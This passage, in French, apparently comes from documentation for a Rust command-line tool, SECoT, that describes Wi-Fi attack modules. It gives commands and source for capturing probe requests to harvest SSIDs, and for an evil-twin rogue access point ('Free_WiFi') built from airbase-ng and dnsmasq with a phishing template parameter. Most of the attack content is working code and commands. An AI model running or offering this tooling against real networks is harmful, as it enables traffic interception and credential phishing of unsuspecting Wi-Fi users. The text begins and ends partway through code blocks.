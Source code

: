 ```rust
    // Traitement de la sortie...
}
```

## Capture des Requêtes de Probe

### But de l'attaque
Recueillir la liste des SSID recherchés pour exploiter cette information dans la suite de l'attaque.

### Outils et Méthodologie
```bash
# Commande pour scanner les réseaux Wi-Fi
SECoT scan --interface wlan0 --duration 30
```

### Code Source du Scanner
```rust
// Extrait de SECoT_CLI_Tool/src/attack_modules/wifi_scan.rs
pub async fn run_scan(interface: &str, duration: u64) -> Result<(), Box<dyn std::error::Error>> {
    let mut airodump_command = Command::new("airodump-ng");
    airodump_command
        .arg("--write")
        .arg("scan_results")
        .arg("--output-format")
        .arg("csv")
        .arg(interface);

    let mut child = airodump_command.spawn()?;
    tokio::time::sleep(Duration::from_secs(duration)).await;
    child.kill()?;

    // Analyse des résultats...
}
```

## Beacon Flood & Evil Twin

### Beacon Flood
```bash
# Commande pour créer un Evil Twin
SECoT evil-twin --interface wlan0 --ssid "Free_WiFi" --channel 1 --target-ip-range "192.168.1.0/24"
```

### Code Source de l'Evil Twin
```rust
// Extrait de SECoT_CLI_Tool/src/attack_modules/wifi_evil_twin.rs
pub async fn run_evil_twin(interface: &str, ssid: &str, channel: u8, target_ip_range: &str, phishing_template: &str) -> Result<(), Box<dyn std::error::Error>> {
    // Configuration de l'interface en mode AP
    let mut airbase_command = Command::new("airbase-ng");
    airbase_command
        .arg("-e").arg(ssid)
        .arg("-c").arg(channel.to_string())
        .arg("-v")
        .arg(interface);

    // Configuration du serveur DHCP
    let mut dnsmasq_command = Command::new("dnsmasq");
    dnsmasq_command
        .arg("--interface=at0")
        .arg("--dhcp-range=").arg(target_ip_range)
```